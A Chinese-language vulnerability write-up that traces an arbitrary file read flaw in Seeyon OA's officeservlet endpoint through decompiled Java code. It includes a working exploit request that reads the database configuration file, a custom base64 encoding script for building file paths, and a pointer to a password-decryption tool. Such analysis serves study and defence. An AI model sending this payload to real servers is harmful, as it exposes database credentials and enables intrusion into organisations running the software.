

# 致远 OA A8-V5 任意文件读取漏洞分析 - 先知社区

致远 OA A8-V5 任意文件读取漏洞分析

- - -

### 致远 OA A8-V5 任意文件读取漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

读取`./../../base/conf/datasourceCtp.properties`路径下的数据库配置文件

```plain
POST /seeyon/officeservlet HTTP/1.1
Host: 10.0.103.21
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175850-a5a12bf6-cfd6-1.png)

读取出数据库密码`/1.0/VWZ0dTIzNC8=`，经过加密，再 github 上下载解密脚本，解密就可以拿到明文密码。

[https://github.com/Rvn0xsy/PassDecode-jar](https://github.com/Rvn0xsy/PassDecode-jar)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175857-a9e3b800-cfd6-1.png)

### 漏洞分析

exp 中的请求路径为`/seeyon/officeservlet`

在 web.xml 中搜索 `officeservlet`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175905-aeacbb34-cfd6-1.png)

找到接口映射到对应的类，跟入 `com.seeyon.ctp.common.office.OfficeServlet`文件

```plain
public class OfficeServlet extends HttpServlet {
    private static Log log = LogFactory.getLog(OfficeServlet.class);

    public OfficeServlet() {
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        AppContext.initSystemEnvironmentContext(request, response);
        HandWriteManager handWriteManager = (HandWriteManager)AppContext.getBeanWithoutCache("handWriteManager");
        iMsgServer2000 msgObj = new iMsgServer2000();

        try {
            handWriteManager.readVariant(request, msgObj);
            if (AppContext.currentUserId() == -1L) {
                User user = handWriteManager.getCurrentUser(msgObj);
                AppContext.putThreadContext("SESSION_CONTEXT_USERINFO_KEY", user);
            }

            String option = msgObj.GetMsgByName("OPTION");
            if ("LOADFILE".equalsIgnoreCase(option)) {
                handWriteManager.LoadFile(msgObj);
            } else {
                String mLabelName;
                if ("SAVEFILE".equalsIgnoreCase(option)) {
                    mLabelName = msgObj.GetMsgByName("clientVer");
                    mLabelName = mLabelName.replace('.', ',');
                    log.info("保存office正文的时候，插件版本校验,服务器handwrite版本为:[" + iMsgServer2000.Version() + "] ,客户端版本为：[" + mLabelName + "]");
                    handWriteManager.saveFile(msgObj);
                } else if ("LOADSIGNATURE".equalsIgnoreCase(option)) {
                    handWriteManager.LoadDocumentSinature(msgObj);
                } else if ("LOADMARKLIST".equalsIgnoreCase(option)) {
                    handWriteManager.LoadSinatureList(msgObj);
                } else if ("LOADMARKIMAGE".equalsIgnoreCase(option)) {
                    handWriteManager.LoadSinature(msgObj);
                } else if ("LOADTEMPLATE".equalsIgnoreCase(option)) {
                    handWriteManager.taoHong(msgObj);
                } else if ("SAVESIGNATURE".equalsIgnoreCase(option)) {
                    handWriteManager.saveDocumentSignatureRecord(msgObj, request);
                } else {
                    String mFileName;
                    if ("INSERTFILE".equalsIgnoreCase(option)) {
                        mLabelName = msgObj.GetMsgByName("bookMarkName");
                        mFileName = msgObj.GetMsgByName("fileUrl");
                        if (Strings.isNotBlank(mLabelName) && Strings.isNotBlank(mFileName)) {
                            msgObj.SetMsgByName("POSITION", mLabelName);
                            File tempFile = new File(mFileName);
                            if (tempFile.exists() && tempFile.isFile()) {
                                msgObj.MsgFileLoad(mFileName);
                            }

                            msgObj.SetMsgByName("STATUS", "插入文件成功!");
                            msgObj.MsgError("");
                        } else {
                            handWriteManager.LoadFile(msgObj);
                            msgObj.SetMsgByName("POSITION", "Content");
                            msgObj.SetMsgByName("STATUS", "插入文件成功!");
                            msgObj.MsgError("");
                        }
                    } else if ("INSERTIMAGE".equalsIgnoreCase(option)) {
                        handWriteManager.insertImage(msgObj, request);
                    } else if ("INSERTIMAGEEX".equalsIgnoreCase(option)) {
                        mLabelName = msgObj.GetMsgByName("LABELNAME");
                        mFileName = msgObj.GetMsgByName("IMAGENAME");
                        String inputType = msgObj.GetMsgByName("inputType");
                        if ("image".equals(inputType)) {
                            String createDate = msgObj.GetMsgByName("createDate");
                            handWriteManager.insertImg(msgObj, mFileName, mLabelName, createDate);
                        } else if ("barcode".equals(inputType)) {
                            handWriteManager.insertBarcode(msgObj, mFileName, mLabelName);
                        } else if ("handwrite".equals(inputType)) {
                            handWriteManager.insertHandWriteImg(msgObj, mFileName, mLabelName);
                        }
                    } else if ("SAVEPDF".equalsIgnoreCase(option)) {
                        handWriteManager.saveFile(msgObj);
                    } else if ("PUTFILE".equalsIgnoreCase(option)) {
                        handWriteManager.saveClientFile(msgObj);
                    }
                }
            }

            handWriteManager.sendPackage(response, msgObj);
        } catch (Exception var10) {
            log.error("", var10);
            msgObj = new iMsgServer2000();
            msgObj.MsgError("saveFaile");
            handWriteManager.sendPackage(response, msgObj);
        }

        AppContext.clearThreadContext();
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doGet(request, response);
    }
}
```

在这个继承了`HttpServlet`类中，主要功能都实现在`doGet`中。

代码当中有很多看不懂的地方很正常，我们只需要重点关注漏洞利用点，和恶意数据到达利用点的路径就可以了。

从前端拿到参数的关键 在 33 行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175917-b5d724b2-cfd6-1.png)

```plain
handWriteManager.readVariant(request, msgObj);
```

这条语句大致作用就是从给`handWriteManager`类中一些属性进行赋值，跟进这个方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175924-ba06f3b4-cfd6-1.png)

调用了`msgObj.ReadPackage(request)`去解析 request 中的数据，看看是怎么解析的，继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175929-bceb2d7a-cfd6-1.png)

在这个方法中，先是判断 http 请求体的长度，再将 http 请求体的内容读取到`this.FStream`属性中，然后判断`this.FError`是否为空串，再初始化这个类时，会将`this.FError`赋值为空串。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175935-c0677ca6-cfd6-1.png)

所以这里一定会调用`this.StreamToMsg()`方法，跟进该方法中。

```plain
private boolean StreamToMsg() {
        byte var2 = 64;
        boolean var3 = false;
        boolean var4 = false;
        boolean var5 = false;
        boolean var6 = false;
        String var7 = "";
        String var8 = "";
        this.FMd5Error = false;

        try {
            int var14 = 0;
            // 读取http请求体中前64位
            String var1 = new String(this.FStream, var14, var2);
            // 0-15 位为版本号
            this.FVersion = var1.substring(0, 15);
            // 16-31 为 this.FMsgText这个值的长度
            // 假设this.FMsgText值为100 那么需要再这个位置指定值为100 否则再后期就会读取不到
            int var11 = Integer.parseInt(var1.substring(16, 31).trim());
            // 32-47 读取 this.FError的长度 
            int var12 = Integer.parseInt(var1.substring(32, 47).trim());
            // 48-63 则是指定 this.FMsgFile的长度
            int var13 = Integer.parseInt(var1.substring(48, 63).trim());
            this.FFileSize = var13;
            //  这里的var14 为 0+64=64
            var14 += var2;
            if (var11 > 0) {
                // 从64位开始读取 读取var11的值
                // 这里读取的
                this.FMsgText = new String(this.FStream, var14, var11);
            }

            var14 += var11;
            if (var12 > 0) {
                this.FError = new String(this.FStream, var14, var12);
            }

            var14 += var12;
            this.FMsgFile = new byte[var13];
            if (var13 > 0) {
                for(int var9 = 0; var9 < var13; ++var9) {
                    this.FMsgFile[var9] = this.FStream[var9 + var14];
                }

                var14 += var13;
                if (this.FStream.length >= var14 + 32) {
                    var7 = new String(this.FStream, var14, 32);
                    var8 = this.MD5Stream(this.FMsgFile);
                    if (var7.compareToIgnoreCase(var8) != 0) {
                        this.SetMsgByName("DBSTEP", "ERROR");
                        this.FMd5Error = true;
                    } else {
                        this.FMd5Error = false;
                    }
                }
            }

            return true;
        } catch (Exception var10) {
            this.FError = this.FError + var10.toString();
            System.out.println(var10.toString());
            return false;
        }
    }
```

上面这段代码中就像是在 http 请求体中圈地一样，先是指定了 http 请求体前 64 为来存储`this.FVersion`、`this.FMsgText的长度`、`this.FError的长度`、`this.FMsgFile的长度`。后面则是根据指定的长度在 http 请求体 64 位之后切割并赋值给对应的属性，文件读取所获取的路径只需要通过这里`this.FMsgText`里拿，我们只需要赋值给`this.FMsgText`。其余则都属性的长度都赋值为 0，这样可跳过对对应属性进行赋值。

完成而后又回到`readVariant`方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175944-c62a8bba-cfd6-1.png)

在后续的赋值操作中，通过传递对应字符串调用`msgObj.GetMsgByName` 方法从`this.FMsgText`属性中获取值。这里再获取值的时候也是做了一些操作的，我们跟入`msgObj.GetMsgByName`方法中。

```plain
public String GetMsgByName(String var1) {
        boolean var2 = false;
        boolean var3 = false;
        String var4 = "";
        String var6 = var1.trim().concat("=");
        int var7 = this.FMsgText.indexOf(var6);
        if (var7 != -1) {
            int var8 = this.FMsgText.indexOf("\r\n", var7 + 1);
            var7 += var6.length();
            if (var8 != -1) {
                String var5 = this.FMsgText.substring(var7, var8);
                var4 = this.DecodeBase64(var5);
                return var4;
            } else {
                return var4;
            }
        } else {
            return var4;
        }
    }
```

在这段代码中，其实就是在`this.FMsgText`获取值，在`this.FMsgText`这个属性中通过`关键字=`的方式去获取`关键字=xxx`中的`xxx`，并且对`xxx`进行了`DecodeBase64`解密，这个解码并不是常见的 base64 解码方式，而且变种过的 base64 编码，也就是说当我们传递参数值的时候，还需要对`xxx`进行`EncodeBase64`加密。

这篇文章中详细讲了致远 OA 变种 BASE64 算法的加解密方法

[https://paper.seebug.org/964/](https://paper.seebug.org/964/)

文章中给出了一个加解密的脚本

```plain
var a = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6";
var b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
var c = "OKMLlKlV";
var d = "";
function a2b(v) {
    for (var i = 0; i < a.length; i++) {
        if (a[i] == v) {
            return b[i];
        }
    }
}

function b2a(v) {
    for (var i = 0; i < b.length; i++) {
        if (b[i] == v) {
            return a[i];
        }
    }
}

for (var i = 0; i < c.length; i++) {
    d = d + a2b(c[i]);
}
```

这个脚本 a2b 是解密，得到是正常的 base64 编码值，b2a 是加密，得到的是加密后的值。`c`保存的是需要被加密或者解密的值，d 则是最后转换的结果。

所以在后续构造文件读取路径的时候，需要通过该加密脚本对路径进行加密。

经过前面的分析，我们已经知道了 request 请求是如何被解析了以及在获取值的时候做了解密的操作操作，接下来回到`OfficeServlet`类中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220175954-cb9e8d44-cfd6-1.png)

这里获取`OPTION`的值，而后会根据得到的值调用对应的方法。

关键点 在 56 行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180000-cf6f069c-cfd6-1.png)

这里调用了`handWriteManager.taoHong`方法，跟入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180006-d2ff5d2a-cfd6-1.png)

也是获取了`TEMPLATE`、`COMMAND`、`affairMemberId`、`affairMemberName`的值，随后传入了`officePath`调用了`msgObj.MsgFileLoad(officePath)`，继续跟入

```plain
public boolean MsgFileLoad(String var1) {
        try {
            File var2 = new File(var1);
            int var3 = (int)var2.length();
            int var4 = 0;
            this.FMsgFile = new byte[var3];

            FileInputStream var5;
            // 打开路径下的文件 并将文件的值读入this.FMsgFile中
            for(var5 = new FileInputStream(var2); var4 < var3; var4 += var5.read(this.FMsgFile, var4, var3 - var4)) {
            }

            var5.close();
            this.FFileSize = var3;
            return true;
        } catch (Exception var6) {
            this.FError = this.FError + var6.toString();
            System.out.println(var6.toString());
            return false;
        }
    }
```

这个方法大致功能传入一个文件路径，然后文件的值读取到`this.FMsgFile`属性中。

而这也是照成文件读取关键的一个点，根据这里往后推，文件的路径可通过`TEMPLATE`变量拿到，而`TEMPLATE`则可以通过关键字`TEMPLATE`在`msgObj.GetMsgByName` 方法中拿到，而`GetMsgByName`这个方法本身是在`this.FMsgText`这个属性中获取值，而`this.FMsgText`则是在 http 请求体中截取的值，而 http 请求体我们可控。到目前为止，我们可以通过 http 请求体控制文件路径来读取对应文件，但是还差一步，怎么回显文件内容。

在 OfficeServlet.class 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180013-d6f3e16c-cfd6-1.png)

在 101 行调用了`handWriteManager.sendPackage(response, msgObj)`，我们跟入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180017-d99905a0-cfd6-1.png)

调用了`msgObj.SendPackage(response)` 再次跟入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180022-dc8a62ae-cfd6-1.png)

这里会调用`this.MsgVariant()`将结果写入到 http 响应中。我们跟入 `this.MsgVariant()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180026-df0b4142-cfd6-1.png)

这里返回了`this.FStream` 的值，作为返回到前端的内容。

跟入`this.MsgToStream`中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180031-e22c7062-cfd6-1.png)

通过`FMsgText`、`FError`、`FFileSize`创建了字节数组输出流，然后写入了`FMsgText`、`FError`以及最关键也就是文件读取内容赋值的变量`FMsgFile`，最后都赋值给了`FStream`，然后在`MsgVariant`方法中被返回到前端，以上就是整个任意文件读取漏洞的原理分析。
